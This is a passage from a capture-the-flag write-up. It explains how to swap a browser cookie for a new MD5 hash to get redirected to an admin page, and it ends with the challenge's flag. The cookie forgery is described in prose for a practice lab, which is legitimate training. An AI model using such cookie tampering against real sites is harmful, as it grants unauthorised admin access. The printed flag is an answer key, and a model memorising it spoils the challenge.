With the new `MD5` hash, double-click the value in the Firefox cookie manager, and replace the existing value with the new hash. Refresh the page, and you should be automatically redirected to the admin page with the token.





### Answer 

In this case, the token was `PCCC{Welcome_Admin_eS_5490}`.